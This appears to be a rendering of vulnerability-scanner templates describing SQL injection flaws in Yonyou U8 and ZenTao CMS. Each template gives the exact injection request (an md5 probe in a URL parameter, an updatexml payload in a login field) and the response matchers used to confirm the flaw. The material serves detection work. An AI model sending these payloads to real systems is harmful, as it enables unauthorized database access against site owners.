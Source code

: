 # Yonyou U8 - SQL Injection

## Description

- Yonyou U8 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - yonyou,oa,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5({{num}}))

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# ZenTao CMS - SQL Injection

## Description

- ZenTao CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cnvd,cnvd2022,zentao,sqli

## Requests

### Step - 1

```
POST /zentao/user-login.html HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Referer: {{BaseURL}}/zentao/user-login.html

account=admin'+and++updatexml(1,concat(0x1,md5({{num}})),1)+and+'1'='1

```
